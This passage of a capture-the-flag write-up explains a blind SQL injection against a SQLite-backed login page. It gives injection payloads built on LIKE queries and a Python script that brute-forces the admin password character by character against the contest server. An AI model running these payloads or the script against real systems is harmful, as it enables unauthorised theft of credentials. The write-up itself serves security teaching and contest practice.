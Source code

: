 
Since 1 does not equal 2, the right side of the query ends up being false so the entire query returns false, causing the server to tell us that the User does not exist. Otherwise, it would tell us that it has sent an email to notify the admin about this. So we have a blind SQLi. Question is, how do we exploit it?

There are two types of blind SQLi attacks that can be employed to get the password here. The first would be to use a time-based attack, and the second one would be a regexp-based attack. I used the regexp-based attack, so I will explain that in depth now.

The back-end is running SQLite3, which we know from the error above. In SQLite3, in a WHERE clause, you can use the LIKE query to check whether a column begins with a certain character. For example, `WHERE password LIKE 'a%'` would return true if the password started with an 'a' and ended with any number of characters.

What we can do in this case is the following:

* We pass it a query like `admin' AND 1=(SELECT 1 FROM users WHERE password LIKE 'a%') --.`. This will return true if the password starts with the character 'a', and false otherwise.
* We repeat the above for every letter and number. For every single character, the response body will have "User does not exist". Only for the correct character will the response body have "Your answer to the security..."
* Let's assume we find that the letter the password starts with is a 'b'. We can change our query to `admin' AND 1=(SELECT 1 FROM users WHERE password LIKE 'ba%') --.`. Again, we constantly change the second letter this time from a-z, A-Z, 0-9, etc until we find the one where the response body has "Your answer to the security...". Let's assume it gets this response on the character '5'. From then on, we know that the first two letters of the password are 'b5'.
* We repeat this over and over again until none of the letters work.

That is what a regexp-based attack looks like. I wrote a python script that does it.
```python
#!/usr/bin/env python3

import requests
import sys

def blind(query):
    url = "http://shell1.2019.peactf.com:61940/result.php"
    response = requests.post(url, data={"username":"admin'" +query+ " -- .","answer":"asd","debug":"1"})

    return response

keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+'

query_left_side = "AND 1=(SELECT 1 FROM users WHERE password LIKE '"

password = ""

while True:
    for k in keyspace:
        query = query_left_side + k + "%')"
        response = blind(query)
        sys.stdout.write('\rPassword: '+password+k)
        if "Your answer to the security" in response.text:
            query_left_side += k
            password += k
            break
```
